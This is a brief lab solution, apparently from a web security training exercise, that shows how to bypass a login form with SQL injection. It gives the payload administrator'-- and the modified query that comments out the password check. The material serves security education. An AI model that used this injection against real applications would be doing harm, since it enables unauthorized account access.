 # Subverting application logic

## SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

Solution:

```SQL
administrator'--
```

Modified SQL query:

```SQL
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'alpha'
```